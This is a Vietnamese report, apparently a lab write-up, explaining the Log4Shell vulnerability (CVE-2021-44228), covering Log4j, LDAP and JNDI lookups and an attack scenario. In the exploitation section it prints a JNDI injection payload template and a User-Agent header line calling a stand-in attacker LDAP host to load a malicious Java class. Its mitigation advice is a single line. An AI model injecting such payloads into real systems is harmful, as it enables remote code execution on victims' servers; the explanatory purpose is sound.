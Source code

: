 # REPORT log4j (CVE-2021-44228)
- Mức độ nghiêm trọng: đạt 10/10 *(trong hệ thống đánh giá CVSS)*
- Khai thác lỗ hổng không yêu cầu xác thực, cho phép thực thi mã từ xa (RCE) trên bất kỳ ứng dụng nào sử dụng tiện ích **log4j**
## Table of Content
1. [Log4jShell](#Log4jShell)
2. [LDAP và JNDI là gì?](#LDAP-và-JNDI-là-gì?)
3. [LDAP và JNDI](#LDAP-và-JNDI)
4. [Log4j JNDI lookup](#Log4j-JNDI-Lookup)
6. [Kịch bản khai thác Log4j](Kịch-bản-khai-thác-Log4j)
7. [Exploit]
8. [Biện pháp phòng ngừa](#Biện-pháp-phòng-ngừa)
8. Exploiting Log4j (CVE-2021-44228)
9. Mitigation

### Log4jShell
Tính năng của JNDI trong Apache Log4j2 phiên bản 2.0-beta9 đến 2.12.1 và 2.13.0 đến 2.15.0 được sử dụng cho việc cấu hình (configuration), thông báo nhật ký (log messages) *(bao gồm cả các tham số liên quan)* không chống lại các LDAP và JNDI endpoint liên quan khác mà attacker đang có quyền kiểm soát. Vì thế nên, một khi attacker có thể kiểm soát các log messages hoặc các tham số của log messages thì có thể thực thi được mã code tùy ý được load từ LDAP server khi mà message lookup substitution được kích hoạt. 
- Loại lỗ hổng: Remote Code Execution
- Mức độ: Critical
- Base CVSS Score: 10.0
- Phiên bản bị ảnh hưởng: All versions from 2.0-beta9 to 2.14.1
#### Log4j là gì?
Apache Log4j hay thường gọi là Log4j *(một thành phần của Apache Logging Services)* là một trình ghi log *(thư viện/framework)* được viết bằng ngôn ngữ Java. 

Framework Apache Log4j đang được sử dụng bởi hơn 5 TRIỆU ứng dụng mã nguồn mở trên toàn cầu, con số này còn có thể lớn hơn gấp nhiều lần đối với các ứng dụng không công bố mã nguồn. Đây là phần mềm mã nguồn mở được duy trì bởi một nhóm lập trình viên tình nguyện của dự án phi lợi nhuận từ Apache Software Foundation.
### LDAP và JNDI là gì?
**LDAP (Lightweight Directory Access Protocol)** là một giao thức mở và đa nền tảng được sử dụng để xác thực dịch vụ thư mục (directory service authentication). Nó cung cấp ngôn ngữ giao tiếp mà ứng dụng sử dụng để giao tiếp với các dịch vụ thư mục khác. Các dịch vụ thư mục lưu trữ nhiều thông tin quan trọng như user account details, passwords, computer accounts,... được chia sẻ với các thiết bị khác trên mạng.

**JNDI (Java Naming and Directory Interface)** là một giao diện lập trình ứng dụng (API) cung cấp chức năng đặt tên (naming) và thư mục (directoty) cho các ứng dụng được viết bằng Ngôn ngữ lập trình Java.

![ldap&jndi1](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/1.png)

### LDAP và JNDI
JNDI cung cấp một API tiêu chuẩn để tương tác với các dịch vụ tên và thư mục *(name/directory services)* bằng cách sử dụng giao diện cung cấp dịch vụ (service provider interface-SPI). JNDI cung cấp cho các ứng dụng và đối tượng Java với giao diện mạnh mẽ và minh bạch để truy cập các dịch vụ thư mục như LDAP. Bảng dưới đây cho thấy các hoạt động tương đương LDAP và JNDI phổ biến.

![ldap&jndi](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/2.png)

### Log4j JNDI Lookup
Lookups là một cơ chế thêm giá trị vào cấu hình log4j ở những vị trí tùy ý. Log4j có khả năng thực hiện nhiều lookups như **map, system properties và JNDI (Java Naming and Directory Interface) lookups**.

Log4j sử dụng API JNDI để nhận các dịch vụ naming và directory (naming and directory services) từ một số providers sẵn như : **LDAP, COS (Common Object Services), Java RMI registry (Remote Method Invocation), DNS (Domain Name Service),...** 

Nếu chức năng này được thực thi, thì chúng ta có thể đặt dòng mã này ở BẤT KỲ đâu đó trong chương trình: **${jndi:logging/context-name}**

### Kịch bản khai thác Log4j

#### Kịch bản Log4j bình thường

![normal Lo4j scenario](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/3.png)

1. HTTP request được gửi tới server
2. Log4j log lại HTTP request vừa được gửi

#### Kịch bản khai thác Log4j

![exploit Log4j](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/4.png)

Khi attacker kiểm soát được log messages thì có thể dẫn tới việc thực thi được mã tùy ý trên những server mục tiêu. Những mã này được load từ LDAP server mỗi khi message lookup substitution được bật. Từ đó, payload sẽ được tải và thực thi trên máy nạn nhân. 

Ví dụ về cách thức kết hợp JNDI và LDAP để khai thác: 
```console
${jndi:ldap://<host>:<port>/<payload>}
```
1. Attacker chèn JNDI lookup vào header field (vị trí có khả năng được log lại)
> User-Agent: ${jndi:ldap://anonymous.com:1389/xxx}
2. Chuỗi được chuyển tới log4j để log.
> ${jndi:ldap://ldap://anonymous.com:1389/xxx}
3. Log4j nội suy chuỗi và truy vấn máy chủ LDAP độc hại.
4. LDAP server phản hồi bằng thông tin directory có chứa Java Class độc hại.
5. Java deserialize (hoặc tải xuống) Java Class độc hại và thực thi nó.

### Exploit 
Trạng thái không sử dụng thiết bị IPS/IDS
![noIPSIDS]{https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ima/log4jlab.drawio.png}

### Biện pháp phòng ngừa

Áp dụng thiết bị IPS/IDS 
